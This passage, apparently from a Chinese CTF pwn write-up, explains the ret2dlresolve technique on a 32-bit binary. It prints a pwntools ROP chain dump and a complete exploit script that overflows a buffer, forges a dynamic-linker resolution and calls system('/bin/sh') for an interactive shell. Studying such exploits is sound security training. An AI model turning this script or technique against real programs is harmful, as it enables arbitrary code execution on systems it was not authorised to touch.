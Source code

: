 如上所示，我们更改`dlresolve`中的`symbol`即可执行任意函数，修改`args`即可任意控制其参数。

这里我直接打`system`反而没打通，打`execve`即可。

### 不使用ROP模块

在上一步中，我们使用了`ROP`模块，我们可以使用`rop.dump()`来打印出实际的`ROP`链。

```c
0x0000:        0x8049050 read(0, 0x804ce00)
0x0004:        0x804901f <adjust @0x14> add esp, 8; pop ebx; ret
0x0008:              0x0 arg0
0x000c:        0x804ce00 arg1
0x0010:          b'eaaa' <pad>
0x0014:        0x8049030 [plt_init] execve(0x804ce24, 0, 0)
0x0018:           0x4b28 [dlresolve index]
0x001c:          b'haaa' <return address>
0x0020:        0x804ce24 arg0
0x0024:              0x0 arg1
0x0028:              0x0 arg2
```

如上所示（主要观察那一列地址，`0x8049050`开始那一列），我们观察到其就是调用了`read`往`0x804ce00`读`dlresolve`的`payload`（这个地址就是`pwntools`自动挑选的`data_addr`）。随后其模拟了一个`plt`表的调用过程，即模拟压入了`reloc_index`，并执行绑定`plt`表的函数。

而该`index`我们可以直接通过`dlresolve.reloc_index`进行获取。

因此，我们可以仿照这种操作，来自己写一个基于`Ret2dlresolvePayload`的通用`exp`。

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

leave_ret = 0x0804915F
start_resolve = 0x8049030
pop_3_ret = 0x0804901f

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh", 0, 0])

payload = b'a'*0x10c + p32(elf.plt['read']) + p32(pop_3_ret) + p32(0) + p32(dlresolve.data_addr) + p32(0x100)
payload += p32(start_resolve) + p32(dlresolve.reloc_index) + p32(0xdeadbeaf) + p32(dlresolve.real_args[0]) + p32(dlresolve.real_args[1]) + p32(dlresolve.real_args[2])
sh.send(payload)

sh.send(dlresolve.payload)
sh.interactive()
```
